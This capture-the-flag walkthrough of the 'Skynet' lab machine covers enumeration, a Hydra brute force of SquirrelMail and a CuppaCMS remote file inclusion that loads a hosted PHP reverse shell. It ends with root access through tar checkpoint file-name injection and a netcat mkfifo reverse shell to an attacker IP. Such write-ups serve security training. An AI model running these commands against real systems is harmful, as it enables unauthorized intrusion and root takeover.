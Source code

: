# Skynet write-up

# 1. Recon

## Nmap

| PORT         | STATE SERVICE                                                   | REASON                | VERSION                                                              |
|--------------|-----------------------------------------------------------------|-----------------------|----------------------------------------------------------------------|
| 22/tcp       | open                                                            | ssh                   | syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80/tcp       | open                                                            | http                  | syn-ack Apache httpd 2.4.18 ((Ubuntu))                               |
| 110/tcp open | pop3                                                            | syn-ack Dovecot pop3d |                                                                      |
| 139/tcp open | netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                       |                                                                      |
| 143/tcp open | imap                                                            | syn-ack Dovecot imapd |                                                                      |
| 445/tcp open | netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                       |                                                                      |

Let's dig in the web server first

## Gobuster
> gobuster dir -u 10.10.228.54  -w /usr/share/wordlists/dirb/big.txt

| Path           | Info                                                              |
|----------------|-------------------------------------------------------------------|
| /.htpasswd     | (Status: 403) [Size: 277]                                         |
| /.htaccess     | (Status: 403) [Size: 277]                                         |
| /admin         | (Status: 301) [Size: 312] [--> http://10.10.228.54/admin/]        |
| /ai            | (Status: 301) [Size: 309] [--> http://10.10.228.54/ai/]           |
| /config        | (Status: 301) [Size: 313] [--> http://10.10.228.54/config/]       |
| /css           | (Status: 301) [Size: 310] [--> http://10.10.228.54/css/]          |
| /js            | (Status: 301) [Size: 309] [--> http://10.10.228.54/js/]           |
| /server-status | (Status: 403) [Size: 277]                                         |
| /squirrelmail  | (Status: 301) [Size: 319] [--> http://10.10.228.54/squirrelmail/] |

We don't have access to many of the folders, but the /squirrelmail can be accessed and seems interesting.<br>
On /squirrelmail, we get a login form for a web app named SquirrelMail version 1.4.23 [SVN].<br>
But we don't have any credentials. Let's search at another place.

## SAMBA

On the port 139/445, a samba server seems to be running, let's enumerate the remote shares.<br>
> smbclient -L //ip/

| Share name | Type | Comment                                     |
|------------|------|---------------------------------------------|
| print$     | Disk | Printer Drivers                             |
| anonymous  | Disk | Skynet Anonymous Share                      |
| milesdyson | Disk | Miles Dyson Personal Share                  |
| IPC$       | IPC  | IPC Service (skynet server (Samba, Ubuntu)) |

Two shares are interessting, <strong>anonymous</strong> and <strong>milesdyson</strong><br>
We need to search on the anonymous share<br>
> smbclient //ip/anonymous

We can find two files not empty : <strong>attention.txt</strong> and <strong>log1.txt</strong><br>
Attention.txt<br>
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```
log1.txt which seems to be a password list.<br>
The <strong>milesdyson</strong> share might also be a username.<br>
Let's try to brute force the mail app using the username and the creds found in log1.txt<br>

## Hydra

Using burp suite, we can view how a request is made to the login system. It's a post request with thoses parameters :<br>
```login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1```<br>
to the /squirrelmail/src/redirect.php/ endpoint.<br>
We can then craft an hydra command : 
> hydra -l milesdyson -P log1.txt 10.10.66.5 http-post-form "/squirrelmail/src/redirect.php/:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

We can then find a password : <br>
```[80][http-post-form] host: 10.10.66.5   login: milesdyson   password: [REDACTED]```

Let's login to the mail app, and in one mail we found that : 
```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B
```

## SAMBA 2

Now we have the the password for the samba <strong>milesdyson</strong> share, we can get in it.<br>
> smbclient -U milesdyson //10.10.228.54/milesdyson

In a notes folder, we can retrieve an important.txt containing :
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

On the /45kra24zxs28v3yd endpoint, we can see a CUPPACMS running.</br>
Checking online, we can find an exploit for this cms :<br>
> https://www.exploit-db.com/exploits/25971

It's an LFI/RFI exploit, the webserver will load an external php file if the urlConfig parameter is set we accessing /alerts/alertConfigField.php<br>
We will host a php reverse shell like the pentestmonkey one.
In the same directory as our modified php reverse shell, we start a python webserver :<br>
> python3 -m http.server

And setup a listener<br>
> nc -lvp <YOUR_PORT>

Then, we make the remote server request and execute our shell accessing at :<br>
> http://10.10.110.22/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.27.215:8000/shell.php


## Privesc

One logged, when exploring the system, we can see a weird crontab running using :
> cat /etc/crontab

```
*/1 *    * * *   root    /home/milesdyson/backups/backup.sh
```
This script is executed as root every minutes.<br>
Let's find what it do.<br>

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
The script create a backup of the /var/www/html folder to a backup.tgz archive.<br>
Using [gtfobins](https://gtfobins.github.io/), we find that we can abuse of tar to execute a script<br>
And since the script is running as root, if we can make it execute a reverse shell to our machine, it will run as root<br>
When scanning the folder to backup, if tar find a file which is named as one of his arguments like "--checkpoint=1" and "--checkpoint-action=exec=/binsh"<br>
Then tar will execute it, --checkpoint=1 and --checkpoint-action=exec=OUR_PAYLOAD will execute our payload<br>
Let's create an netcat reverse shell script using https://www.revshells.com/<br>
Enter your attacker ip and port and we get a command like :<br>
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.26.190 4444 >/tmp/f

Save it on a shell.sh file on the target.<br>
Make it executable.<br>
> chmod +x shell.sh

Put the --checkpoint=1 file in the /var/www/html<br>
> echo "" > --checkpoint=1

> echo "" > "--checkpoint-action=exec=sh shell.sh"
We can then get the reverse shell using a netcat listener.
